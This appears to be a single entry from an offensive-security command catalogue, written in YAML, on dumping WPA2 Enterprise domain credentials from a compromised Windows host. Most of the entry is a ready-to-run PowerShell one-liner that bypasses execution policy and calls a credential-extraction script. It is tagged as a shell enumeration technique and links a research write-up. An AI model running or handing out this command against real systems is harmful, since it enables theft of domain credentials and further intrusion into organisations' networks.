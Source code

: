 ```yaml
---
title: |
  Recover plaintext domain credentials from WPA2 enterprise on a compromised host
description: |
  Execute the script from the reference to do all the work necessary to retrieve all WPA2 Enterprise domain credentials stored in the user session.

command: |
  powershell -exec bypass -Command "&{. .\Get-WPAEnterprisePassword.ps1; Get-WlanEnterprisePassword}"
items:
  - Shell
OS:
  - Windows
attack_types:
  - Enumeration
references:
  - https://0x00-0x00.github.io/research/2018/11/06/Recovering-Plaintext-Domain-Credentials-From-WPA2-Enterprise-on-a-compromised-host.html
---
```

